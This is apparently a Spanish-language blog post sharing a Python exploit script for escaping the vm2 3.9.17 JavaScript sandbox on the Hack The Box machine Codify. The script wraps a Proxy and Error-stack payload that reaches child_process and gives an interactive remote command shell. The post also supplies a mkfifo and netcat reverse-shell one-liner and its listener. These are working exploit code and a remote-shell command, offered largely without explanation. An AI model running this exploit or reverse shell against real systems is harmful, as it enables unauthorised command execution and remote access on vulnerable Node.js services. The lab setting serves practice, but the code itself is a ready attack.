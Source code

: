```yaml
---

title: VM2 3.9.17 
date: 2023-11-05 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true

---
```


- Este script se usó para escapar del sandbox vm2@3.9.17 en la máquina Codify de HTB. Podemos llegar a injectar comandos "RCE" y entablar una revshell. Más info en este [PoC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) 
- Ejecutar Revshell con mkfifo:
	1. Shell RCE $> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [tuIP] [PortListener] >/tmp/f`
	2. KALI $> `sudo nc -nlvp [PortListener]`

-----------------------------------------------------------------------------------------------

```python
#!/bin/python3

import requests
import base64
import json

url = 'http://codify.htb:3000/run'
headers = {
    'Content-Type': 'application/json',
}

def send_request(command):
    raw_code = (
        'const { VM } = require("vm2");\n'
        'const vm = new VM();\n\n'
        'const code = `\n'
        '  const err = new Error();\n'
        '  err.name = {\n'
        '    toString: new Proxy(() => "", {\n'
        '      apply(target, thiz, args) {\n'
        f'        const process = args.constructor.constructor("return process")();\n'
        f'        throw process.mainModule.require("child_process").execSync("{command}").toString();\n'
        '      },\n'
        '    }),\n'
        '  };\n'
        '  try {\n'
        '    err.stack;\n'
        '  } catch (stdout) {\n'
        '    stdout;\n'
        '  }\n'
        '`;\n\n'
        'console.log(vm.run(code)); // RCE'
    )

    encoded_code = base64.b64encode(raw_code.encode()).decode()
    payload = json.dumps({"code": encoded_code})
    response = requests.post(url, headers=headers, data=payload)
    return response

print("Shell, introduce un comando")
while True:
    try:
        commandUser = input("$> ")
        if commandUser.lower() == "exit": 
            break
        else:
            response = send_request(commandUser)
            response_data = response.json()
            command_output = response_data.get('output', '').strip()  
            print(command_output)
    except KeyboardInterrupt:
        print("\033[91m[*] Saliendo...\033[0m")  
        break
```
